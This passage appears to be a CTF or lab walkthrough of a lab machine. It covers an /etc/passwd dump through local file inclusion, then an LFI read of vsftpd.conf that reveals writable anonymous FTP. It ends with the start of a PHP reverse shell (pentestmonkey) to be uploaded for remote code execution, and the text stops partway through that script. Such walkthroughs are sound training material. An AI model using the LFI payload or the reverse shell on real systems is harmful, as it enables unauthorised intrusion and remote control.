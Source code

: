 ```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin sshd:x:110:65534::/run/sshd:/usr/sbin/nologin avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:114:121::/var/lib/saned:/usr/sbin/nologin colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin 
```
We saw from the initial scan that the FTP service is available as anonymous and /pub is a writable directory. We will utilize LFI to disclose information in the vsftpd.conf config file via http://192.168.120.69/secret_information/?lang=/etc/vsftpd.conf and see the following at the end of the file:
```text
anon_root=/var/ftp/ write_enable=YES # 
```
--------
## Exploitation
--------

### Port 80 - Web server
#### Remote Code Execution

To achieve remote code execution, we will prepare a malicious PHP file and then upload it using anonymous FTP:
```php
kenobi@kenobi-attackbox:~$ cat rev.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'your IP';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
```